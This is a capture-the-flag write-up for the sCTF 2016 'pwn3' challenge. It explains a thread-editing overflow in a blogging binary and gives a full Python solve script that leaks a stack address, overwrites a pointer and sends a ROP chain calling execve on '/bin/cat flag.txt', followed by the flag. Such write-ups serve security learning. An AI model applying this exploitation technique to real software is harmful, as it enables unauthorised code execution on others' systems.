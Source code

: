 ## pwn3 - 160 (Pwning) ##
#### Writeup by r3ndom_ #####
Created: 2016-4-15

### Problem ###
A nice, simple blogging system. Have fun!
`nc problems2.2016q1.sctf.io 1339`

### Hint ###
If nobody can figure it out, I'll consider giving a hint ;)

## Answer ##

### Overview ###
Figure out how to cause a buffer overflow and create a system call for execve on `/bin/cat flag.txt`

### Details ###

This program had a way bigger vulnerable function than the rest so I won't be putting it in here, but the jist is that it had a menu for adding, editing, and printing "threads".

The vulnerability lies within the editing of a thread as they are placed on the stack in a more memory efficient way which allows for overwrites of following threads.

Once two threads have been created the first one can be edited to have more info than previously contained, this will overwrite the id and next pointer and potentially more of the data of the thread. 

However my exploit is dependant on the stack pointer so I made a script to be able to grab the stack pointer when the first next address is printed from the list of threads. Every other stack address is calculated relative to that.

Heres my commented solve script:

```python
rop = ''

import struct
def get_addr(addr):
	return struct.pack('<L', addr)

import socket

# My local first address, for testing.
first_addr = 0xffff45d0

# Let's sploit
sock = socket.socket()
sock.connect(('problems2.2016q1.sctf.io', 1339))

wr = sock.send
sock.recv(8192)
sock.recv(8192)
print 'writing'
# Create two threads.
wr('1\nad\nasd\nasd\n1\nasd\nasd\nasd\n')
sock.recv(8192)
wr('3\n')
sock.recv(8192)

# Get the stack ptr
outpt = str(sock.recv(8192))
print outpt
adr = outpt.find(': 0x')
outpt = outpt[adr+4:outpt.find('\n',adr)]
print outpt
first_addr = int(outpt,16)

# Set the next ptr of the second thread.
wr('2\n0\nAAAAAAB' + get_addr(first_addr - (0xffff45d0-0xffff4060) - (0x65)) + '\n')
print sock.recv(8192)

# To avoid getting carpal tunnel from writing 'get_addr' so many times
ga = get_addr

# Rop equivalent of a nop sled to allow the code after the fgets
# to write to some memory in the .bss section
rop += (ga(0x806f511) + (ga(0x80ec170) + ga(0x80ec169)))*5

# Write "/bin/cat",0,"flag.txt",0 somewhere
CAT = '/bin/cat\0'
FLAGTXT = 'flag.txt\0'
MEM = CAT+FLAGTXT
BIN_SH = 0x80ec190
rop += ga(0x804fbf0) + ga(0x8049408) + ga(BIN_SH) + ga(len(MEM)+1) + ga(0x80eb360)

MEM += ga(BIN_SH) + ga(BIN_SH+len(CAT)) + ga(0)
rop += ga(0x804fbf0) + ga(0x8049408) + ga(BIN_SH-13) + ga(13) + ga(0x80eb360)

# Set eax to oxb
rop += ga(0x80bb926) + ga(0xb)
# Set ecx and ebx
rop += ga(0x806f511) + ga(BIN_SH-13) + ga(BIN_SH)

# Set edx to some shit
rop += ga(0x806f4ea) + ga(0x80ec0b0)

# int 0x80
rop += ga(0x806fbc0)

# Add another thread so that the thread count is 3 and we can edit the third thread (pointed to by our modified next pointer) and rop chain.
wr('1\na\nd\nasd\n')
wr('2\n8\n' + rop + '\n')
wr(MEM + '\n')

# Get all the output from the server.
print sock.recv(8192)
print sock.recv(8192)
print sock.recv(8192)
print sock.recv(8192)
```

Some other notes:

I wrote my code to exploit the return address of the edit thread function rather than the menu, this is so that I have less worries about the space on the stack and also I don't need to worry about the stack cookie if I'm off by a few bytes (I do really shite arithmetic).

Running that script alone will garner the flag.

Sorry for the kinda lack of analysis, the function is just massive and I don't want to bloat the write up size, if you download the binary the function is `menu()` and theres just a huge buffer for threads on the stack.

### Flag ###

The flag is `sctf{h34p_0n_th3_st4ck_EZPZ}`

